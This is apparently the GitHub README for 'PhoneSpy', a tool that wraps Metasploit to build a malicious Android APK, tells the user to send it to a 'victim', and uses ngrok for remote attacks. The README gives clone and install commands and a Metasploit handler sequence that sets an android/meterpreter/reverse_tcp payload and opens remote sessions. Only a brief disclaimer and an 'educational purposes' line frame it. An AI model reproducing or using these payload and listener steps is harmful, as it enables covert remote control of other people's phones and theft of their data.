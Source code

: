 # PhoneSpy
PhoneSpy is a Simple Android Payload Generator Only For Termux Users.

# How it works?
<p>PhoneSpy grab metasploit from termux then execute it to build an APK PAYLOAD. You just need to send this payload to victim. It will auto start MSFCONSOLE listener. For WAN (Wide Area Network) attack, You need to put ngrok info while you creating payload. </p>

# Legal disclaimer:
<p>Usage of PhoneSpy for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.</p>

## This Tool Tested On :
<ul>
  <li>Kali Linux</li>
  <li>Termux</li>
  <li>Perrot Sec OS</li>
</ul>

# Installing and requirements
<p>This tool requires METASPLOIT for creating PAYLOAD and Ngrok for WAN attack. 

## Installing (Kali Linux):

```
apt-get update

git clone https://github.com/TechBite-BD/PhoneSpy.git

cd PhoneSpy

chmod +x install.sh

bash install.sh
```


## Installing (Termux):

```
pkg update

pkg install git

git clone https://github.com/TechBite-BD/PhoneSpy.git

cd PhoneSpy

chmod +x install.sh

bash install.sh
```
Note: Use Mobile Data For Ngrok Link

## Next Command
use exploit/multi/handler

set PAYLOAD android/meterpreter/reverse_tcp

set LHOST(Ip)
set LPORT(9944)
exploit -j
sessions -i 1

## Give me the credits if you copy ANY part from this code. Don't be NOOB!!
